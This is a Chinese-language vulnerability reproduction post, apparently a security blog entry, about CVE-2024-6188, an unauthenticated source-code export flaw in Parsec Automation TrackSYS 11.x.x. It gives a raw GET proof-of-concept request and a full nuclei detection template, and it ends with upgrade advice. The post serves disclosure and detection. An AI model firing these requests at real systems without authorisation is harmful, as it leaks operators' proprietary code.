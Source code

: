 #  CVE-2024-6188 漏洞复现   
原创 fgz  AI与网安   2024-07-13 09:02  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
Parsec Automation TrackSYS 敏感数据泄露  
漏洞  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
Parsec Automation TrackSYS 11.x.x  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
TrasYSYS是一个由ParsecAutomation Corp.开发的软件平台，用于管理实时操作和优化制造流程。广泛应用于各行业，用于监测、分析和提高生产过程的效率和生产率。在Parsec Automation TrackSYS 11.x.x中发现一个漏洞，攻击者不需要访问应用的任何凭据，可以直接导出页面的源代码。此问题影响文件/TS/export/pagedefinition的某些未知处理。参数ID的操作会导致直接请求。攻击可以远程启动。该漏洞已向公众公开，并可能被利用。  
  
  
  
  
04  
  
—  
  
漏洞复现  
  
  
POC数据包如下，传递任意真实存在的ID，即可导出源代码  
```
GET /TS/export/pagedefinition?ID={ID} HTTP/1.1
Host: {HOST}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BN988ict5qBmEpdWlW2wpQc7icgj905v0wmHxBXq3ZhMrv2RSTTaohicGulgTj9SlRb8KZlTtrSNQITQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BN988ict5qBmEpdWlW2wpQc7CIA5l6vibplxbgaoWVwzDAbibaEOK9X6fXfMhlXgOib2chdoH7Mbf2XwA/640?wx_fmt=png&from=appmsg "")  
  
漏洞复现成功  
  
  
  
05  
  
—  
  
nuclei poc  
  
  
poc文件内容如下  
```
id: CVE-2024-6188

info:
  name: TrakSYS 11.x.x - Sensitive Data Exposure
  author: securityforeveryone
  severity: medium
  description: |
    A vulnerability was found in Parsec Automation TrackSYS 11.x.x and classified as problematic. This issue affects some unknown processing of the file /TS/export/pagedefinition. The manipulation of the argument ID leads to direct request. The attack may be initiated remotely. The exploit has been disclosed to the public and may be used.
  impact: An attacker is able to export the source code of the pages without having any credentials to access the application.
  reference:
    - https://kiwiyumi.com/post/tracksys-export-source-code/
    - https://nvd.nist.gov/vuln/detail/CVE-2024-6188
    - https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2024-6188
    - https://debricked.com/vulnerability-database/vulnerability/CVE-2024-6188
  metadata:
    verified: true
    max-request: 1
    vendor: parsec-automation
    product: tracksys
  tags: cve,cve2024,traksys,idor,info-leak

http:
  - raw:
      - |
        GET /TS/export/pagedefinition?ID=1 HTTP/1.1
        Host: {{Hostname}}

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - 'TrakSYS Version'
          - 'Name'
          - 'Altname'
        condition: and

      - type: word
        part: content_type
        words:
          - 'text/plain'

      - type: status
        status:
          - 200
# digest: 4a0a00473045022100b253a5a98a7432b44402719cf5070ea48a46f736dd935a3d191850571d8ee09502204dbe17d2cfedb94c6e00365e24ceab71bea2bc0076eaafda23b18aabc7585dab:922c64590222798bb761d5b6d8e72950
```  
  
  
  
  
06  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
~~~关注不迷路，点赞你最帅~~~  
  
